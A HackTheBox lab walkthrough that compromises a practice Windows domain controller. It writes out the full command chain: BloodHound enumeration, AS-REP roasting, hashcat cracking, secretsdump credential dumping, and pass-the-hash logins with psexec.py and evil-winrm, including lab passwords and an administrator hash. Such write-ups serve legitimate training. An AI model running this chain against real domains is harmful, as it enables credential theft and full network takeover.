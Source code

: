 
*2021-08-21*

*kimm3*

# Walkthrough: Box
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the fifth box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

Ref:
- [Bloodhound](https://bloodhound.readthedocs.io/en/latest/index.html)
- [Hausec AD pentesting part II, some good tips](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
- [Kerberoasting](https://www.blackhillsinfosec.com/a-toast-to-kerberoast/)
- [Impacket](https://github.com/SecureAuthCorp/impacket)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)

## Scans and enumeration
```
export IP=10.10.10.30
sudo nmap $IP -p- -Pn -A -oA nmap/init-scan
```

![init-scan](assets/markdown-img-paste-20210821063908146.png)

That looks like a Windows domain controller, indicated by ldap and kerberos. Information found includes:

- Hostname: PATHFINDER
- Domain: MEGACORP
- Other protocols worth enumeration: DNS, SMB, WinRM
If we get credentials, we can try to use windows remote management to access the machine.

The domain name is the same as the previous boxes. Since we have domain users credentials from the Shield box, we can enumerate further with bloddhound tools.

You'll need bloodhound and the neo4j packages installed.

There's a [python bloodhound collector tool](https://github.com/fox-it/BloodHound.py) so that you don't have to depend on windows apps.

```
pyhon3 -m venv pathfinder
source pathfinder/bin/activate
pip install bloodhound
```

`bloodhound-python -d megacorp.local -u sandra@MEGACORP.local -p Password1234! -dc pathfinder.megacorp.local -ns $IP -c all --zip`

![bloodhound-import](assets/markdown-img-paste-2021082105153908.png)

Drag and drop the zipfile in to bloodhound. Run some built-in quieries from the analysis window. Apart from the administrator user, there's a user called svc_bes that has the 'GetChanges' and 'GetChangesAll' rights to the domain.

![svc-bes](assets/markdown-img-paste-20210821051834754.png)

![get-tools](assets/markdown-img-paste-20210821061817697.png)

Let's try to get some hashes. First we'll try to get SNPs.

![getusersnps.py](assets/markdown-img-paste-20210821054126891.png)

This fails due to my machine not having the same time as the DC, we'll try to sync time if the others techniques dosen't work.

![getnpusers.py](assets/markdown-img-paste-20210821062004467.png)

Success, let's try to crack it.

![hc-wiki](assets/markdown-img-paste-2021082106211154.png)

`hashcat -a 0 -m 18200 hashes/svcbes sl/Passwords/Leaked-Databases/rockyou.txt`

![hc-cracked](assets/markdown-img-paste-20210821062307483.png)

## Exploiting the machine
`secretsdump.py megacorp.local/svc_bes:Sheffield19@10.10.10.30 -dc-ip $IP`

![secretsdump.py](assets/markdown-img-paste-20210821063937478.png)

Let's try psexec.py with the administrator hash.

`psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18`

![root.txt](assets/markdown-img-paste-20210821064140394.png)

It works.
## Alternative
With the svc_bes user, we can use winrm to get in to the machine and get the user.txt.

![user.txt](assets/markdown-img-paste-20210821064819883.png)

Install evil-winrm and connect with: `evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19`

Once you have the hash of the administrator, you can use evil-winrm to connect as administrator as well:

![evil-winrm-adm](assets/markdown-img-paste-20210821065214379.png)

## An easier way
Don't know why I didn't try this first, but the user sandra gets in with winrm. From here you can upload files like mimikatz and winpeas.

![sandra-winrm](assets/markdown-img-paste-2021082107072358.png)
